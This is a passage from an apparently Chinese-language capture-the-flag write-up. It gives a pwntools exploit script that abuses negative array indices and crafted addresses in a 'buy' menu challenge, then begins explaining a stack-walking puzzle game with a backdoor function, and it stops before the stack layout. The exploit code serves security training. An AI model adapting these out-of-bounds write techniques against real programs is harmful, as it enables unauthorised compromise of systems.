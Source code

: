 ```python
DEBUG = lambda script = '': gdb.attach(io, gdbscript=script)

elf = ELF(proc_path)
# libc = ELF(libc_path, checksec=False)
io = conn()

def menu(ch):
    io.sendlineafter(b'1.buy', str(ch).encode())
    
def buy(idx, content):
    menu(1)
    io.sendlineafter(b'which', str(idx).encode())
    io.sendafter(b'name', content)
    
def exp():
    # DEBUG()
    flag1 = 0x407010
    flag2 = 0x407060

    io.sendlineafter(b'1.buy', b'666')
    io.sendlineafter(b'it', b'asd')
    buy(-0x48, b'otto')
    buy(-0x5a, b'aaaa')
    menu(3)
    io.sendlineafter(b'many', b'4')
    io.sendlineafter(b'golden', b'123')
    io.sendlineafter(b'golden', b'-')
    io.sendlineafter(b'golden', b'-')
    io.sendlineafter(b'golden', str(0x4020A4).encode())

    pass

exp()
io.interactive()
rm_core()
```

### game

**题目分析**

题目是一个类似于华容道的游戏，但是地图并没有限制高度，也就是说我们可以在栈上自由滑动。题目开启了 PIE ，并且有一个后门函数`backdoor`。

**利用思路**

由于题目限制了移动次数，所以我们可以先把剩余步数改了。

题目一开始要求我们输入`name`,而`name`也在栈上，并且就在当前栈帧返回地址的后面。栈的排布如下：
